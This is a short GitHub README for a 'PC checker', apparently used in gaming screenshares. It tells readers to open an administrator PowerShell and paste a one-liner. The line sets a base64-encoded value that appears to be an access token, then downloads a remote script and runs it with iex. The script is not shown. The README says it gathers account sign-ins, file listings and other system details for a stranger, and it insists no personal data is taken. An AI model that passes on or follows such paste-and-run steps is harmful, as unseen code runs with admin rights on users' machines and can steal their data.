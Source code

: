 # Pc-Checker-Main

Step 1) 
Open windows powershell as an administrator by:
1- pressing the search bar in your taskbar
2- typing "windows Powershell" in the taskbar
3- Right click on windows powershell
4- Press Run as Administrator

Step 2) 
Put the Powershell script into the text area.
1- Locate where is says "PS C:\WINDOWS\system32>" 
2- After the > Paste the following: "$t="Z2l0aHViX3BhdF8xMUJMQjMzVVEwbkVzOHhJeVBpUnpoX2g3RUhSaTB0YkN5cWphV1lOTFBXWWE4WkZSb1RxeU5JSG1CcjU5UVRQV3ZGSzVSRUNCQVFpWTJVT05w"; iwr -useb https://raw.githubusercontent.com/suprsor/Pc-Checker-Main/refs/heads/main/SuprsorsPcCheck.ps1 | iex"
3- Press enter.

Step 3) 
Pc check proccess
1- The script opens a browser, opens tabs corresponding to how many accounts you've ever signed into on your computer since last factory reset.
2- Show all account in screenshare to person pc checking you
3- Wait for the script to find all .exe, and .rar files that are suspicious.
4- It will say "Scan completed" there will now be a file copied in your Copy clipboard.
5- Go to dms with person pc checking you and paste whatever is in your copied clipboard
6- Send the file and the person pc checking you will review all suspicious files.

What the script provides:
All Ubisoft User IDS, no passwords are  given in logfile. 
All .exe .rar files you have
Windows installation date
Suspicous files
Different browsers you use


What it doesn't provide
Direct access to your computer
And passwords/emails
Any Ip addresses/personal information
NO login information

